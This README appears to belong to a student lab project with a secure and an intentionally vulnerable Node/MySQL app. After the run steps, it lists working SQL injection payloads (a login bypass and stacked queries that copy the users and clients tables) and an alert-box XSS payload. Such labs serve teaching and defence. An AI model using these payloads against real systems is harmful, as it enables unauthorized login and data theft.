 How to run our project:
This project is splitted to 2 versions: secure and vulnerable.
In order to run the secure version -
open terminal -> cd cyber-server-secure -> npm start
open terminal -> cd cyber-client-secure -> set port=3001 && npm start

In order to run the vulnerable version -
open terminal -> cd cyber-server-vulnerable -> npm start
open terminal -> cd cyber-client-vulnerable -> npm start

(make sure you run mysql)

SQL injection:
login:
email- ' OR '1'='1' -- (IMPORTANT: HAVE A SPACE IN THE LAST CHAR) 
password- anything

The injection will let the hacker to log in without valid credantials

register:
in the first name field:
test', 'last', 'email@test.com', 'Secpass123','pkg'); CREATE TABLE users_hacked AS SELECT * FROM users; -- 
(the rest doesnt matter)

The injection will let the hacker to create users_hacked table in the database with all the users info from the original table


add client-
in the first name field:
x', 'last', 'email', 'phone', 'addr','pkg'); CREATE TABLE clients_hacked AS SELECT * FROM clients; -- 
(the rest doesnt matter)

The injection will let the hacker to create clients_hacked table in the database with all the clients info from the original table


XSS attack - 
in the first name field:
<img src=x onerror="alert(`XSS ATTACK!`)">
(the rest doesnt matter)
will show an alert dialog with content - XSS ATTACK!
